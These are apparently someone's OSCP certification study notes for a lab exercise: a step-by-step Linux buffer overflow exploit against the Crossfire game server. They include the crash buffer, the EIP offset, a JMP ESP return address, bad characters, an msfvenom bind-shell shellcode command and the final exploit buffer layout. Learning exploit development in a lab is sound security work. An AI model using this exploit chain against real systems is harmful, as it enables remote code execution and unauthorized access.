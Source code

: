 ```yaml
---
title: "OSCP: Linux Buffer Overflow"
parent: OSCP
grand_parent: Certifications
nav_order: 2
---
```


# Linux Buffer Overflow (Crossfire)
Download a version of the vulnerable app Crossfire
### Setup safe environment: iptables only allow traffic from loopback interface=targetip
iptables –A, -p, -d, -j # Append, protocol, destination, jump
crossfire listens on port 13327
iptables -A INPUT -p tcp --destination-port 13327 \! -d 127.0.0.1 -j DROP
iptables -A INPUT -p tcp --destination-port 4444 \! -d 127.0.0.1 -j DROP
### 1. Run debugger and crash the app
Get POC code from exploit db
edb --run /usr/games/crossfire/bin/crossfire. In EDBG: Hit RUN twice
crash = “\x41” *4379
buffer = “\x11(setup sound “ + crash + “\x90\x00#”
python fuzz.py
2. Control EIP
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 4379
Swap into the crash var: python linux_buffer_overflow.py 
EIP has been overwritten with the hex characters… 46 36 70 46
These are unique 4 bytes in the buffer. Now find where they are in the buffer.
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 4379 -q 46367046
[*] Exact match at offset 4368
Replace “crash = "\x41" * 4368 + "B" * 4 + "C" * 7”: python EIP_BBBB.py


3. Make space for the shellcode  
Check for helpful registers: Follow in dump.
EAX points to buffer start “setup sound “ opstring (len 12). Want to avoid these bytes. 
ESP points to end of buffer “C * 7” (spare bytes). 
Add 12 bytes to EAX to align EAX with the A’s => JMP EAX we skip over “setup sound “
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > add eax,12 	83C00C add eax,byte +0xc
nasm > jmp eax 		FFE0 jmp eax
Add instructions together (JMP EAX + 12 bytes) = \x83\xc0\x0c\xff\xe0 to python. Looks like I didn’t test again here? Just note nasm output and move on?
4. Discover bad characters
All bad chars (except x00) contained in deault named script. Can use this for future.
python bad_chars.py
ID/remove bad chars in buffer. Right-click EAX. Follow in stack & dump. Stack looked better in EDBG. Scroll down dump until end of A’s. Then should see 01, 02, 03… etc until a failure. remove failure from bad_chars.py. Redo until ESP-error-free crash 
Removed: (\x00\x0a\x0d\x20)


5. Redirect execution flow - Find a return address
So, we know we want to reach the buffer pointed to by the ESP register.
EDBG: Plugins: Opcode Seacher: 
Once the application is in a crashed state use dropdown to search for:
ESP -> EIP: 
Choose 1st JMP ESP. Add address to python script at BBBB.
crash = "\x41" * 4368 + "\x97\x45\x13\x08" + "\x83\xc0\x0c\xff\xe0\x90\x90“
EDBG: Add breakpoint at 0x08134597 to execution flow. 
Right-click Go to Address 0x08134597. Double click on it to place breakpoint.
Restart EDBG. Send payload. Should pause at First stage payload.
Next instruction is JMP ESP. F8. We are redirected to ESP 83C00C 
As EAX register aligned by stage one, a JMP EAX takes us to a clean buffer of A’s
6. Make shellcode excluding bad characters
bind or reverse? why?
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c –b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai
Resulting shell code is 105 bytes
7. Add shellcode into python script
shellcode = ("\xd9\... \x30")
ret="\x97\x45\x13\x08”
crash=shellcode + "\x41" * (4368 - 105) + ret + "\x83\xC0\x0C\xFF\xE0\x90\x90“
buffer = "\x11(setup sound " + crash + "\x90\x00#“
TURN OFF EDBG FOR EXPLOIT TO WORK: RUN CROSSFIRE: RUN EXPLOIT /usr/games/crossfire/bin/crossfire
python exploit.py
id; whoami
